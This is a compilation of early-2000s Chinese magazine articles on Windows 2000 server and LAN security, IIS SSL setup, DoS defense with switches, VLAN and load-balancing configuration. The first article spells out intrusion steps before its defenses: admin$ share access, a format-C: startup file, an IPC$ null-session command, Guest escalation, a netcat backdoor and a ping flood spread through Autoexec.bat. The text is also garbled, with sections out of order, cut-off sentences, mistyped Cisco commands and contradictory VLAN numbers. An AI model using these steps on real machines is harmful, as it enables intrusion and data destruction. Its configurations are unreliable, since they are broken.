通过以上3个方面的讨论，相信大家已经对IIS的安全性有了更加全面的认识，只要我们在实际的工作和学习当中，多加学习和实践，我们完全可以用更多的方法来保证IIS的安全性。

## 防范局域网内的服务器被人侵

文／李军胜

计算机入侵的方式多种多样，如互联网入侵和局域网入侵等等，这里笔者想谈谈如何防止服务器在局域网内被人入侵的问题。

## 防范共享入侵

如在一局域网中，服务器安装 Windows 2000 Server 系统（采用 NTFS 分区），客户机计算机名分别为 Work1、Work2……WorkN，分别安装 Windows 98 或 Windows 2000 Pro 系统。假如一台客户机的用户名为 YD_xlpos，密码为 Ei@9，已经登录到域 domain，那么即可使用默认共享入侵，只要在该客户机的网络邻居地址中输入\\server\admin$，就会出现什么结果呢？呵呵，进入了 Windows 2000 的系统目录 Windows NT 了吧，删除一个文件试试，成功了吧！再次输入\\server\d$，就进入了服务器上的 D 盘，这样服务器已经完全在该客户机用户的掌握中了，而且已经具备管理员权限。这是相当危险的，一些居心叵测的人马上可以新建 Winstart.bat 或者 Wininit.ini 文件，加入格式化 C 盘的语句，那么下次服务器启动后，C 盘下的所有文件就没有了。或者在服务器的启动项中加入现在任何流行木马的启动程序，后果可想而知。

防御办法：Windows 2000 的默认共享是为了方便远程维护，目的的确给了别人可乘之机。请打开注册表编辑器，定位到：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver
```

如果是 Windows 2000 Pro，则新建 Autosharewks 的 DWORD 值，并将键值设为 0；如果是 Windows 2000 Server，则新建 Autoshareserver 的 DWORD 值，并设置键值为 0，然后重新启动计算机，默认共享就不会出现了。

不过危险并没有消除，Windows 2000 平台的客户机还可以通过 IPC$ 的空连接入侵服务器。客户机用户可以先用端口扫描软件 X-Scan 填入服务器的 IP，在扫描模块里选择 sqlserver 弱口令和 nt-server 弱口令，当得到 nt-server 弱口令后，可在客户机的 cmd 窗口中输入 net use \\192.168.0.88\ipc$ '' /user:'' 用户来建立空连接，然后激活 Guest，并添加管理员权限，然后安装后门（如 netcat）就可以进行远程控制。但危险依然存在，那怎样禁止 IPC$ 空连接呢？可定位到注册表：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA
```

修改 RestrictAnonymous 的 DWORD 值为 00000001。

## 防范 Ping 入侵

Ping 入侵方式也叫 ICMP 入侵，它利用了 Windows 系统的漏洞。攻击者在 Work1 的 DOS 窗口中输入 ping -l 65500 -t 192.168.0.88（服务器的 IP 地址），在服务器上看看系统托盘的小电脑是不是一直在闪动，那是客户机 Work1 在向服务器发出请求。那我们试着想想，如果局域网内的计算机很多，在每台计算机的 Autoexec.bat 文件中加入 ping -l 65500 -t 192.168.0.88，那么会怎样？服务器将会随着 CPU 使用率居高不下而崩溃，这就是有名的 DoS 服务（拒绝服务），在一个时段内连续向服务器发出大量请求，服务器来不及回应，也就死机了。

防御方法：安装网络防火墙：如天网等，在设置里面点选“不允许别人用 Ping 命令探测本机”。或者在“管理工具”中点击“本地安全策略”进入“IP 安全策略，在本地机器”中进行设置（设置过程略）。

## 维护和管理服务器

那么，我们平时该怎样对服务器进行维护和管理呢？黑客入侵服务器，首先要知道服务器的 IP 地址和所开放的端口，因此我们可以在网上邻居中隐藏服务器的 IP 地址，为服务器的计算机名保密，并建立服务器通讯端口列表，对一些敏感的端口如 139、3389、5000 等进行屏蔽。对一些病毒或者木马的连接端口应该有一定的了解，如冰河的 7626 端口、广外女生的 6267 端口。

首先，安装病毒防火墙和网络防火墙，并进行相应的设置。定期对病毒库进行更新，有计划地对服务器进行查杀病毒操作。其次，定期用 DOS 命令 netstat -a 或者 SuperScan 软件对服务器开放的端口进行检测，将检测结果和以往备份的端口列表进行比较。如果发现未知端口有异常连接建立或者正在监听，特别是高端端口，则立即断开网络，用检测木马的软件进行检测，这里推荐使用 Trojan Remover。对于服务器所开的进程也是不能忽略的，用进程检测软件如 Windows 优化大师的进程管理检测服务器所运行的进程，并和以往的进程列表作比较，如发现不明进程，那就要小心了。对于 Win2000 的服务也须小心配置，因为它是在系统启动前加载的，如可将 Task Scheduler、RunAs Service、FTP 等等改为手动，最好能够了解各种服务的作用。对于服务器所开的共享应该心中有数，可用 net share 命令来查看，不过在可能的情况下最好不要开文件共享。即使要开启共享，也应该设置密码和相应的用户才能登录，最好不要打开写文件的权限。

接着打开“计算机管理”（点击“我的电脑”，再右键点击“管理”），检查用户和组里是否有非法用户，如果建立有非法用户，并具备管理员权限，那管理员就要小心了。对系统提供的 Guest 用户应该禁止，因为黑客都喜欢用 Guest 来进行系统控制。对于 Administrator，管理员应该进行改名操作，并可在 C:\Documents and Settings\ 下查看用户。对于有非法用户的目录，应该查看里面有些什么东西，有什么蛛丝马迹可寻，并定期对事件查看器进行筛选加分析。对安全日志进行审核，方法为点击“管理工具”里面的“本地安全策略”，在本地策略里的审核策略中进行审核操作。

在英文识别不成问题的情况下推荐使用 Windows 2000 英文版，我们知道，中文版的 Bug 比英文版的多，中文补丁的推出也相对较晚，对微软的 SP 补丁包也需及时更新。建议多去微软的站点检测，方法为点击开始菜单指向 Windows Update，注意微软发布的安全公告，对病毒和系统漏洞的最新动态应该有一定的了解，堵上系统存在的漏洞，这会减少服务器被入侵的几率。如果你是系统管理员，笔者建议要合理选择安装相关组件，如你不需要 Web 服务就不需要安装 IIS，不需要远程维护就不要安装“超级终端”等等，但对一些需要的组件建议安装，如网络监视器。另外，对一些特殊的 DOS 命令，应尽量修改扩展名，在可以不用超级用户登录的情况下尽量不要用超级用户登录，超级用户的密码要做到科学配置，大小写加特殊字符，降低被暴力破解的几率。

另外，笔者还要提醒系统管理员，不要私自在服务器上试用新软件，特别是大型软件和 Beta 版软件，不要用服务器作为上网的主机，不能让不具备权限的人接近服务器。Windows 2000 Server 系统的稳定性和安全性还是非常高的，系统的崩溃大部分原因是由于人为的误删除或者误操作所致。总之，对服务器的安全问题应该引起人们极大的重视，应挂接多个硬盘做好备份，使服务器在出错后能够快速恢复。

相信很多朋友都有自己的网站，而IIS可能也是大家搭建自己的网站比较常用的工具了。IIS的确为我们搭建自己的网站提供了便利，但是如果没有好的安全策略和措施，IIS便会成为黑客入侵系统的直接突破口。IIS自身的漏洞的确不少，Unicode解析错误漏洞、Null.htw、WebDav等等这些词语都和IIS密切相关。在不停地为IIS打补丁的同时，我们是否想过IIS还是不够安全呢？本文就从SSL的角度来讲解如何具体配置你的IIS。

## 你的IIS够安全吗

文／车长虹

IIS（Internet Information Service）即Internet信息服务，主要用来为IE和Netscape浏览器提供通过网络访问信息的服务，但是其安全性却往往没有引起人们足够的重视。在本文中，我们将就以下几个方面的内容进行讨论：

首先，你的OS必须是Server、Advanced Server或Datacenter Server中的某一个。如果你用来运行IIS的机器在域中，则可直接在域控制器上安装证书服务，否则先要安装活动目录（Active Directory，简称AD），方法如下：

## 一、SSL介绍以及在Windows 2000中配置HTTP使用SSL

SSL（Secure Sockets Layer，安全套接层）协议，实现在Socket层，处于应用层和传输层之间，由SSL记录协议（SSL RECORD PROTOCOL）和SSL握手协议（SSL HANDSHAKE PROTOCOL）组成。SSL握手协议主要用于在客户机和服务器传送数据之前的协商过程，诸如加密算法和会话密钥的确定，特征值的提取以及通信双方的身份验证；而SSL记录协议则用来定义数据的传输格式，同时也起到在应用层和传输层之间的过渡作用。SSL的通信要使用某个端口号，Internet号码分配当局（IANA）已经为具备SSL功能的应用分配了固定的端口号，例如，使用了SSL的HTTP（HTTPS）被分配以443。

- 1. 在Windows 2000中选择“开始”——>“运行”，打开命令行。
2. 在命令行中从键盘输入“dcpromo”命令，回车。
3. 在活动目录的安装向导中，可以依次选择“创建一个新域的域控制器”——>“创建一个新的域树”——>“创建一个新的森林”——>“输入DNS全名”——>“输入域的NetBIOS名字”，接下来按照向导的提示一步一步做下来就可以了。这个活动目录的提升需要一定的时间，可以乘机稍稍休息，提升完成之后需要重启计算机，如果不出什么意外的话，就可以使用了。

下面以配置https为例，介绍Windows 2000中SSL的使用方法：

SSL具有C/S架构，我们先来看看服务器端的配置。

其次，我们要在域控制器上安装证书服务，方法如下：

- 1. 在Windows 2000中选择“开始”——>“控制面板”——>“添加删除程序”——>“添加删除组件服务”——>选中“证书”。
2. 打开证书安装向导，选择安装“企业根CA”（注意：该CA只能为企业CA或其他的商业CA，Windows 2000独立CA不能签发服务器证书），选择“下一步”，接下来在向导对话面板中依次输入证书服务器的信息，选择“下一步”，配置完成之后就可以使用了。

最后，我们将来进行最为关键的一步，也就是如何在 IIS 中配置 SSL：

- 1. 在 Windows 2000 中选择“开始”→“程序”→“管理工具”→“Internet 服务管理器”。这样，你将启动 IIS 管理界面。在 IIS 管理界面里选中某个 Web 站点，点击鼠标右键，在弹出式菜单中选择“属性”菜单项，并在弹出的对话框中选择“目录安全性”标签页。然后单击“安全通信”下的“服务器证书”按钮，弹出 Web 服务器证书安装向导对话框，然后选择“下一步”。
2. 在接下来的对话框中，选择 Web 服务器证书的产生方式，选择“创建一个新证书”，选择“下一步”。
3. 在接下来的对话框中，要求用户选择证书请求的发送方式。选择“立刻发送”，把请求直接发送给 CA，CA 将把产生的证书自动安装到 IIS。然后选择“下一步”。
4. 接下来的对话框中要求输入新证书的名称和密钥长度，对服务器证书来说，最好选择 1024 位或更大的长度，然后选择“下一步”。
5. 在弹出的对话框中输入证书中要求的组织信息，然后选择“下一步”。
6. 接下来的对话框要求用户输入拥有此证书的 Web 站点的公用名称，此处要填入计算机的 NetBIOS 名字，也就是计算机名（如果服务器在 Internet 上，此处应该填入正确的 FQDN（Fully Qualified Domain Name，即全限定域名），也就是计算机名称加上它的 DNS 后缀）。然后，选择“下一步”。
7. 在接下来的对话框中输入处理证书要求的地理信息，输入完毕后，选择“下一步”。
8. 接下来要求用户输入处理证书请求的证书颁发机构，我们可以选择一个可用的在线 CA，选择“下一步”。
9. 接下来系统弹出证书信息总结对话框，选择“下一步”，则 CA 系统处理证书请求，并产生用户要求的 Web 服务器证书，然后单击“完成”。这样，就完成了 Web 服务器证书的申请。
10. 回到“目录安全性”页，可以看到，“安全通信”框架内的其他两项全部激活，单击“编辑”按钮，打开新的对话框。
11. 可以在这个对话框中设置安全 Web 服务器的一些属性，选中“申请安全通道（SSL）”复选项。下面有一项为“是否使用 128 位强加密”，这一项要慎重使用，因为并不是所有的客户端都会支持 128 位加密，使用前要先确定好。默认情况下不要选用此项。其他的选项，读者可以参照个人喜好而定。然后，选择“确定”按钮。
12. 从“目录安全性”转至“Web 站点”页，可以看到，SSL 端口已经激活，这里可以填入默认端口 443，也可以根据你的需要，填入相应的端口号。然后，选择“确定”。
13. 下面就可以在浏览器地址栏中，输入类似“https://<ip地址>:<端口号>”字样的 URL 地址进行访问。

这样，整个 SSL 的配置和使用的过程就完成了。

## 二、配置安全的 Web 站点和 FTP 站点

有些用户喜欢节省，所以在配置站点服务时，往往使用了系统默认提供的目录作为其主目录，这样往往会留给黑客得以利用的安全漏洞，建议用户将站点使用的主目录位置更改，并且找到这个文件夹。在文件夹上点击右键，单击“属性”，在“属性”对话框中选择“安全”页，在此对话框内可以针对个别的用户设定相应的安全权限。

## 三、只打开常用端口

为了防止黑客利用其他不常用的端口造成的安全性威胁，从而更好地辅助 IIS 提供安全服务，我们可以只打开需要使用的端口，从而将其他的所有

# 用三层交换来阻击 DoS 的攻击

文／李兆勇

尽管全球网络安全专家都在着力开发抗 DoS 攻击的办法，但收效不大，因为 DoS 攻击利用了 TCP 协议本身的弱点。在交换机上进行设置，并安装专门的 DoS 识别和预防工具，能最大限度地减少 DoS 攻击造成的损失。

利用三层交换建立全面的网络安全体系，其基础必须是以三层交换和路由为核心的智能型网络，有完善的三层以上的安全策略管理工具。同时，在网络的设计阶段，就应该进行合理布置。

## 局域网层

在局域网层上，网管员可采取很多预防措施。例如，尽管完全消除 IP 分组假冒现象几乎不可能，但网管员可构建过滤器，如果数据带有内部网的信源地址，则通过限制数据输入流量，可有效降低内部假冒 IP 攻击。过滤器还可限制外部 IP 分组流，防止假冒 IP 的 DoS 攻击被当作中间系统。

其他方法还有：关闭或限制特定服务，如限定 UDP 服务只允许于内部网中用于网络诊断目的。

遗憾的是，这些限制措施可能给合法应用（如采用 UDP 作为传输机制的 RealAudio）带来负面影响。如果攻击者能胁迫受害者不使用 IP 服务或其他合法应用，那么这些黑客已经达到了 DoS 攻击的目的。

## 网络传输层

以下对网络传输层的控制可对以上不足进行补充。

- 1. 独立于层的线速服务质量（QoS）和访问控制

带有可配置智能软件、独立于层的 QoS 和访问控制功能的线速多层交换机的出现，改善了网络传输设备保护数据流完整性的能力。

在传统路由器中，认证机制（如滤除带有内部地址的假冒分组）要求流量到达路由器边缘，并与特定访问控制列表中的标准相符。但维护访问控制列表不仅耗时，而且极大增加了路由器开销。

相比之下，线速多层交换机可灵活实现各种基于策略的访问控制。

这种独立于层的访问控制能力把安全决策与网络结构决策完全分开，使网管员在有效部署了 DoS 预防措施的同时，不必采用次优的路由或交换拓扑。结果，网管员和服务供应商能把整个城域网、数据中心或企业网环境中基于策略的控制标准无缝地集成起来，而不管其采用的是复杂的基于路由器的核心服务，还是相对简单的第二层交换。此外，线速处理数据认证可在后台执行，基本没有性能延迟。

- 2. 可定制的过滤和“信任邻居”机制

智能多层访问控制的另一优点是，能简便地实现定制过滤操作，如根据特定标准定制对系统响应的控制力度。多层交换可把分组推送到指定的最大带宽限制的特定 QoS 配置文件上，而不是对可能是 DoS 攻击的组制定简单的“通过”或“丢弃”决策。这种方式，既可防止 DoS 攻击，也可降低丢弃合法数据包的危险。

另一个优点是能定制路由访问策略，支持具体系统之间的“信任邻居”关系，防止未经授权使用内部路由。

以极进网络公司的 ExtremeWare 套装软件为例，它映射和覆盖了 IEEE 802.1p 和 DiffServ 标记，使所有交换机都能忽略、观察或处理从“不信任邻居”发来的任何 DiffServ 标记。这些机制，可使系统管理员根据来自特定邻居的流量调整内部路由策略。

- 3. 定制网络登录配置

网络登录采用惟一的用户名和口令，在用户获准进入前认证身份。网络登录由用户的浏览器把动态主机配置协议（DHCP）递交到交换机上，交换机捕获用户身份，向 RADIUS 服务器发送请求，进行身份认证，只有在认证之后，交换机才允许该用户发出的分组流量流经网络。

在 IEEE 802.1 草案中已规定，网络登录机制可控制用户对交换机的访问，最大限度地降低直接 DoS 攻击的危险。同时，网络登录为管理和跟踪内部用户提供了一种强健的机制。

# 保护文本数据库安全的巧妙方法

文／李文龙

小型的数据存储中，文本型数据库（简单地说就是用文件存储数据）往往比其他关系型数据库更为有效、方便，现在比较流行的网络应用程序大多都是采用文本文件来存储数据（比如论坛、留言本等）。

文本型数据库虽然短小方便，但是安全性能比不上其他数据库：如果文件名泄漏，轻则内容被人窥视，重则可能危害到整个网站的安全（特别是存储着密码的文件）。所以，文本型数据库数据安全是不容忽视的一个问题，以前大多数措施都是在密码保护上下手。

笔者在实际应用中发现一个更有效而且简单的办法：只要把文本数据库的文件名取为服务器端解释执行的类型，在内容中稍微做点变化即可。下面对现今比较流行的 PHP、ASP 中的操作做一点简单介绍。

把含有文本型数据的文件名取为：`*.php`，文件内容的第一行为：`<?`，其他行存储数据。这样，即使文件名泄露，他人也不能看到文本文件里的内容。因为访问 `*.php` 时，服务器首先把它当成 PHP 程序进行解析，自然得出程序错误。这是其中典型的一个错误结果：“Parseerror: parse error in H:\www.dzren.com\1.php on line 2”，如果在 php.ini 文件中禁止显示错误，则更完美，用户得不到任何显示结果。

## 一、PHP 环境中的处理方法

把含有文本型数据的文件名取为：`*.`

## 二、ASP 环境中的处理方法

把含有文本型数据的文件名取为：`*.asp`，文件内容的第一行为 `<%`，内容的最后一行为 `%>`，其他行存储数据。同 PHP 原理一样，用户只能看到“服务器内部错误”的提示。

可以看出，这样的处理非常简单，安全性也很高，做出的“牺牲”最多不过是增加文件内容几个字节而已。

# VLAN 深度剖析

文/netbug

随着计算机交换技术的发展，VLAN 也伴随着交换机出现了。VLAN（Virtual Local Area network）就是虚拟局域网的意思。VLAN 的作用可以把本来由一个实体存在的局域网从物理上分割成几个不同的网络，这几个网络之间不能互相通讯。如果非要通讯不可，那么我们可以借助路由器或者具有路由功能的计算机来实现。看看你的学校，看看你的公司，也许你们的局域网就是用交换机提供的交换功能。今天我们就对交换机的 VLAN 进行大剖析。

## 了解 VLAN 的概况

在过去几年里，我们通常组建局域网（通常是以太网）要用到集线器（HUB），集线器是连接网络终端的一种设备，它和交换机最大的不同就是：交换机可能单独为终端用户提供独立的带宽，而 HUB 没有这样的功能。比如说：一个 100M 的局域网，10 个终端机，采用星型拓扑结构，用 HUB 来连接的话那么每个终端机器只能分到 10M 的带宽。如果采用交换机的话，那么我们的终端机器就可以单独享受这 100M 的带宽和对方机器通讯。随着交换机的发展，HUB 已经逐渐走出了市场，随之而来的是更高档、更先进的交换机出现。

比如，现在可以在 Web 和 Telnet 界面下管理的交换机，最先进的还当属三层交换机。三层交换机即可以在网络层面上对数据报的网络地址进行探测与转换。三层交换即为：“两层交换技术 + 三层转发技术”。相比之下，交换机的功能已经和路由器有很大的相似点了。但是，我们必须明白，虽然三层交换机技术、路由器，甚至普通计算机可以实现 VLAN 之间的通讯，其实真正的三层交换技术只能在三层交换机中实现。功能实现了，但是性能不一样了。图 1 是一个典型的 VLAN 设置。

一个典型的 Vlan 配置。图 1

## 为什么他们要选择交换机

- 现在交换机的价格已经降到了可以接受的价位，买集线器不如买一个交换机实在。
- 你的学校或者公司的计算机网络已经初具规模了，随着计算机网络数量的增加，广播风暴也会成倍地增加，网络传播速率会明显地降低。特别是在接点故障引起的广播风暴时，即使采用交换机，由于每个端口都在监听接受包，所以……

在计算机数量增多的情况下数据报根本无法发出去。那么，我们只有采用对大型局域网进行 VLAN 划分。这样，一个大网就被分成几个小网了。

- 如果你们公司有财务部，或者你们公司对计算机安全比较看重，那么你们的网络管理员可能要用划分 VLAN 的方式来保证服务器的安全。即：把服务器划分在只有认证用户或者财务部内部用户才可以访问的虚拟网内。
- VLAN 可以合理地组织网络结构，灵活地配置在不同地点的接点入网。

## VLAN 的划分方式

### 基于端口的划分方式

这是网管最常使用的一种划分方式。端口划分就是网络管理员通过设置软件设置或者硬件强行把交换机的端口分配给某个 VLAN。这种方式比较死板，需要管理员对划分好的 VLAN 硬接线，但是这样的划分方式应该是比较安全的。所以，这样划分 VLAN 的方式也叫静态划分。所有这些设置我们还可以通过软件在以后的使用中进行更改。在下面的剖析中，我们会对端口方式划分的 VLAN 进行详细的叙述。

VLAN 的端口方式划分也有一定的灵活性，但不是很大。我们可以把一台交换机的端口划分成许多的 VLAN，同时我们也可以把多个交换机的端口都划分成一个 VLAN。这样，我们就可以解决在不同地方的终端机同时加入到一个网中，提高了交换机使用的灵活性。还是举个例子吧，假如公司为了安全起见，把财务部和技术部划分为两个 VLAN，但是它们需要使用同一个服务器和打印服务器，此时我们只要把服务器和打印服务器划分在交换机的同一个端口就可以了，这样既保证了安全性又保证了员工们都可以使用服务器资源。一举两得！

#### 基于 mac 地址的划分方式

学习网络的人都知道计算机需要网卡才能工作，每个网卡自带了一个网络地址号码，我们就称其为 mac 地址。借助对交换机的配置，我们可以按照计算机的 mac 地址来划分 VLAN，这样的划分方式可能是原始了一点。但由于每个计算机只能有一个 mac 地址，所以这在网络安全方面增加了更高的安全性。但是，如果网络中的计算机都按 mac 地址的方式来划分 VLAN 的话，那么对网络管理者的工作来说也太大了点吧。我们可以借助一些管理软件和交换机配套使用，那么我们就可以自动对 mac 地址进行 VLAN 的划分。当终端计算机在连入网络交换机之前，交换机会首先对其 mac 地址进行检查，看看是否在内部的某个端口上，如果没有就对其动态分配，反之，交换机对将其原属的 mac 地址中 VLAN 删除，重新加入到新的 VLAN 中。可以看到，通过 mac 地址来划分 VLAN 可以实现交换机 VLAN 的动态管理。VLAN 在哪个端口号我们并不确定，但是一个 VLAN 的规模我们是可以立刻确定的。

### 基于 IP 地址的划分方式

基于 IP 地址来划分 VLAN 很像路由器的工作方式，用 IP 地址管理有很多的好处。这个我们就不多说了，请大家看看基于 mac 地址划分的 VLAN。本来交换机是识别属于 OSI 一、二层的，而不能识别 IP 地址。IP 地址属于网络层管理的范畴。不过，现在的交换机加入了三层交换的模块，即实现了我们现在所说的三层转发技术。大家知道，IP 地址是可以随便更改的，所以入侵者可以通过更改 IP 地址的方式来攻击服务器。这带来了许多的安全隐患，请大家注意了。

### 基于组播的划分方式

组播（Multicast），即网络复制并发送一组报文到一组定义了的特定子集的计算机。这些计算机的地址在 IP 组播地址的目的地址端指出。组播可以看成是一对多的通讯。我们可以把那个点看成交换机的端口，“多”看成许多的终端计算机。对于参加了组播的计算机都划分在交换机的一个端口中，这就是我们所说的 VLAN 组播。

## 创建 VLAN

通过对 VLAN 划分方式的介绍，我们可以知道划分 VLAN 至少需要两个步骤：

- 1. 创建我们需要的 VLAN。
2. 将我们需要分配的计算机 mac、IP 或者交换机端口划分到 VLAN 中。

创建 VLAN：

- 1. 通过 Telnet 到交换机的 23 端口，对交换机进行配置。输入 enable 口令后，我们进入全局配置方式：

```
switch#conf term
```

- 2. 由于我们经常使用的是 Ethernet，那么我们在分配 VLAN id 的时候就只能从 1~1001 取值。如果你的网络是 fddi 或者 token ring，那么 VLAN id 的取值就要从 1002—1005 中取值。需要记住：VLAN 1 是交换机默认的一个 VLAN，不能删除也不能被创建。

```
switch(config)#int VLAN VLAN_id
```

（这里的 VLAN_id 为 VLAN 的取值）。

- 3. 保存对 VLAN_id 的配置，返回到特权模式。

```
switch(config-VLAN)#end
```

通过简简单单的 3 步命令，我们就创建了一个 VLAN 了。不是很简单吗？下面我们看看如何使用交换机命令将 VLAN 绑定到接口：

- 1. 进入到全局配置模式

```
switch#cong term
```

- 2. 指定欲配置的接口

```
switch(config)#interface
{fastethernet|gigabitethernet} slot/port
```

- 3. 关闭接口，防止刚刚配置好的接口进行数据传播：

```
switch(config-int)#shutdown
```

- 4. 将接口配置成二层结构，然后在二层结构中指定配置接口。

```
switch(config-int)#switchport
switch(config-int)#switchport mode access
```

- 5. 最重要的一步了，将接口添加到 VLAN，启用接口。

```
switch(config-int)#switchport access VLAN VLAN_id
```

```
switch(config-int)#no shutdown
switch(config-int)#end
```

怎么样，是不是很简单就完成了一个 VLAN 的端口配置划分方式。如果你想取消某个接口的 VLAN，可以在全局接口配置模式下输入：default interface {fastethernet|gigabitethernet} slot/port。当然，参数有些是可选的，那就要看你自己的实际情况了。

## 必不可少的 Trunk

Trunk 是独立于 VLAN 的，它将多条物理链路模拟成一条逻辑链路来实现 VLAN 和 VLAN 的连接。使用 Trunk 可以连接不同类别的 VLAN 或者不同交换机相同 VLAN_id 号的 VLAN，而且还可以增加交换机的物理带宽，增加了网络设备的冗余。如果在交换机之间创建一个 Trunk，则是相当于在网络设备之间创建了一条公共的通讯通道，但这个公共信道并不属于某一个 VLAN 专有。那么，什么时候我们才可以用到 Trunk 呢？当交换机被同时划分成 2 个或者 2 个以上的 VLAN 的时候，就会在两台交换机或者多台交换机之间通过中继链路互连。在理解了什么是 Trunk 以后，我们来看我们必须经过的一步，创建 Trunk：

- 1. 指定要配置的接口：

```
Switch(config)#int {fastethernet|gigabitethernet} solt/port
```

- 2. 关闭正在配置的接口，防止在未完成以前进行数据传输：

```
Switch(config)#shutdown
```

- 3. 指定 Trunk 的封装方式：

```
Switch(config-if)#switchport trunk encapsulation
{isl|dot1q|negotite}
```

- 4. 配置为二层 trunk：

```
Switch(config-if)#switchport mode {dynamicauto|desirable|trunk}
```

- 5. 为 802.1Q trunk 指定本地 VLAN。假如你没有指定，系统默认为：VLAN1：

```
Switch(config-if)#switchport trunk nativac VLAN VLANnum
```

- 6. 如果你需要取消 Trunk，那么你可以使用下面的命令：

```
Switch(config-if)#switchport trunk allowed VLAN VLAN_list
```

- 7. 做完了上面的准备工作后，我们就需要激活这个端口：`Switch(config-if)#no shutdown`

- 8. 退出全局配置，我们将保存我们的设置：`Switch(config-if)#end`

## 操作实例

说了那么多，我们可以来参看一下这个关于交换机的配置。这个例子在网上介绍得特别多，对于初学者很有意义。

### 1. 网络基本情况

网络拓扑结构为：中心交换机采用 Cisco Catalyst 4006-S3，Supervisor Engine III G 引擎位于第1插槽；用于实现三层交换；1块24口1000Base-T 模块位于第2插槽，用于连接网络服务器；1块6端口1000Base-X 模块位于第3插槽，用于连接6台骨干交换机。一台交换机采用 Cisco Catalyst 3550-24-EMI，并安装1块1000Base-X GBIC 千兆模块。一台交换机采用 Cisco Catalyst 3550-24-SMI，也安装1块1000Base-X GBIC 千兆模块。另外4台交换机采用 Cisco Catalyst 2950G-24-SMI，安装1块1000Base-T GBIC 千兆模块。

所有服务器划分为一个 VLAN，即 VLAN 50。4台 Catalyst 2950G-24-SMI 交换机也只划分为一个 VLAN，分别为 VLAN 60、VLAN 70、VLAN 80 和 VLAN 90。Catalyst 3550-24-EMI 划分为4个 VLAN，分别为 VLAN 10、VLAN 20、VLAN 30 和 VLAN 40。Catalyst 3550-24-SMI 划分2个 VLAN，分别为 VLAN 60 和 VLAN 80，与另外两台 Catalyst 2950G-24-SMI 交换机分别位于同一 VLAN。

### 2. 实例分析

由于所有 Catalyst 2950G 交换机都是一个独立的 VLAN，因此，必须先在这些交换机上创建 VLAN（VLAN 60~VLAN 90），并将所有端口都指定至该 VLAN。然后，再在 Catalyst 4006 交换机相应端口上分别创建 VLAN。Catalyst 4006 的1000Base-X 端口分别与各 Catalyst 2950G 的1000Base-X 端口连接。其中，GigabitEthernet3/2 端口连接至1号 Catalyst 2950 交换机（VLAN 60），GigabitEthernet3/3 端口连接至2号 Catalyst 2950 交换机（VLAN 70），GigabitEthernet3/4 端口连接至3号 Catalyst 2950 交换机（VLAN 80）；GigabitEthernet3/5 端口连接至4号 Catalyst 2950 交换机（VLAN 90），GigabitEthernet3/6 端口连接至6号交换机（VLAN 80）。

由于在 Catalyst 3550-24-EMI 上划分有4个 VLAN（VLAN 10~VLAN 40），而4个 VLAN 都需借助一条1000Base-X 链路实现与 Catalyst 4006 的 GigabitEthernet3/1 端口连接，因此，必须在 Catalyst 4006 与 Catalyst 3550-24-EMI 之间创建一个 Trunk。

同样，在 Catalyst 3550-24-SMI 上划分有2个 VLAN（VLAN 60 和 VLAN 80），而4个 VLAN 都需借助一条1000Base-X 链路实现与 Catalyst 4006 的 GigabitEthernet3/6 端口连接，因此，必须在 Catalyst 4006 与 Catalyst 3550-24-EMI 之间创建一个 Trunk。

另外，所有服务器均连接至 Catalyst 4006 的1000Base-T 模块，并单独成为一个 VLAN（VLAN 90），因此也必须为这些交换机创建一个 VLAN，并将所有端口指定至该 VLAN。需要注意的是，考虑到网络管理的需要，也可以剩余几个 RJ-45 端口（如21 至24 端口）不指定至任何 VLAN，从而便于连接网络管理设备。默认状态下，所有端口都属于 VLAN1，而且也只有在 VLAN1 中才能实现对网络中所有设备的管理。

### 3. 配置清单

# 网络负载平衡技术应用实例

文／netbug

网络负载平衡（NLB）是 IP 负载平衡技术，它是 Windows 2000 Advanced Server 和 Windows 2000 Data Center 的一部分。有了 NLB，传入的 TCP 通信、用户数据报协议（UDP）通信和一般路由封装（GRE）通信请求被分发给各个群集成员。分发的依据是基于服务器负载百分比设置的统计算法。通过使用网络负载平衡创建服务器群集，可增强 Internet 服务器程序的可用性，这些 Internet 服务器程序可以是用于 Web、代理、域名服务（DNS）、FTP、虚拟专用网（VPN）和流式媒体服务器等的程序。

网络负载平衡（NLB）有助于调整你的服务器性能，以跟上不断增长的基于 Internet 客户的需求。同时，NLB 提供了动态伸缩功能，即在不影响客户机的情况下，自动适应群集内服务器的添加和删除。NLB 是可以检测到服务器故障，并将其从正运行的群集内悄悄地删除。群集资源从当前不可用的节点切换到可用的节点，重新提供服务叫做故障切换。通常的故障切换有两种类型：

- 1. 有计划切换：由系统管理员进行系统升级或软件维护而强制进行切换；
- 2. 故障切换：由于掉电、系统或软件故障而引起的切换。

## 一、什么是群集

在对网络负载平衡的应用例子讲解之前，我们必须来了解群集这个概念。群集就是一组连在一起的计算机，从外部看它是一个系统，各节点可以是不同的操作系统或不同硬件构成的计算机。例如一个提供 Web 服务的群集，对外界来看是一个大 Web 服务器。不过群集的节点也可以单独提供服务。我们来看一个基本的群集图，如图 1 所示。

## 二、实现群集的方法

实现了群集在某种程度上就算是实现了负载均衡。均衡的意思就是要使外部的连接平均地分布到内部的服务器上。一般来说我们可以通过下面几种方式进行群集服务：

- 1. **网络地址转换（NAT）法**

这种方法可能大家较熟悉，地址转换器有能被外界访问到的合法 IP 地址，它修改来自专有网络流出包的地址，外界看起来它也是来自地址转换器本身，当外界包送到转换器时，它能判断出应该将包送到内部网的哪个节点。优点是节省 IP 地址，能对内部进行伪装；缺点是效率低，因为返回给请求方的流量经过转换器。我们还可以对 NAT 进行改造，创建多路 NAT 服务，使多个 IP 地址和网络通道混合使用。

- 2. **直接路由（Direct forwarding）法**

当参与群集的计算机和作为控制管理的计算机在同一个网段时可以用此法，控制管理的计算机接收到请求包时直接送到参与群集的节点。优点是返回给客户的流量不经过控制主机，速度快开销少。

- 3. **隧道技术（Tunneling）法**

这种方式是群集的节点不在同一个网段时可用的转发机制，将 IP 包封装在其他网络流量中的方法。为了安全，应该使用隧道技术中的 VPN，也可使用租用专线。

总之，群集所能提供的是基于 TCP/IP 的 Web 服务、Mail 服务、News 服务、DNS 服务、Proxy 服务器等。

## 三、应用实例

### 实例1

下面介绍一个用 TurboLinux Cluster Server 来实现一个进行负载均衡群集系统，用于提供 Web 和 FTP 的服务。其实这个例子在网上很多，大家还可以到网上去找找相应的资料。

配置为：服务器共有 12 台，其中 11 台装 TurboLinux Cluster Server，1 台安装 Windows 2000 Server。我们给外部提供 Web 和 FTP 服务，要求外部的连接始终轮换地请求内部的服务器。

### 具体配置

